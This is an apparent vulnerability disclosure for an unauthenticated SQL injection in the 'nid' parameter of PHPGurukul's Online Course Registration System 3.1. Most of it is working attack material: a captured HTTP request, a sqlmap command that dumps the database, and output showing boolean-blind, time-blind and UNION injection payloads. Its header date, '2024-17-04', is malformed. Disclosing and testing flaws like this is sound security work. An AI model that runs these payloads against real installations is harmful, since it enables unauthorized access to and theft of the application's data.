 # Online Course Registration System - SQL Injection - 2 (Unauthenticated)
+ **Exploit Title:** Online Course Registration System - SQL Injection - 2 (Unauthenticated)
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/online-course-registration-free-download/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7515
+ **Version:** 3.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows SQL Injection via the 'nid' parameter at "http://localhost/onlinecourse/news-details.php?nid=2". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/onlinecourse"
+ Click on a random news story on the right side
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /onlinecourse/news-details.php?nid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'nid' parameter to dump the database.
```
sqlmap -r r.txt -p nid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: nid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: nid=2' AND 9388=9388-- oJCQ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: nid=2' AND (SELECT 5924 FROM (SELECT(SLEEP(5)))nACO)-- Bqrm

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: nid=2' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707871,0x66647a6f4b53586d4f51464f6c75517a7a4a424d4972436e5343694b4f4c474e646b674c476a4f76,0x7170787871),NULL-- -
---
[19:43:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:43:33] [INFO] fetching current database
current database: 'onlinecourse'
```
+ current database: `onlinecourse`

![Ekran görüntüsü 2024-05-16 132512](https://github.com/BurakSevben/CVEs/assets/117217689/e927a5e5-a672-4ff7-898d-ab441d928d35)
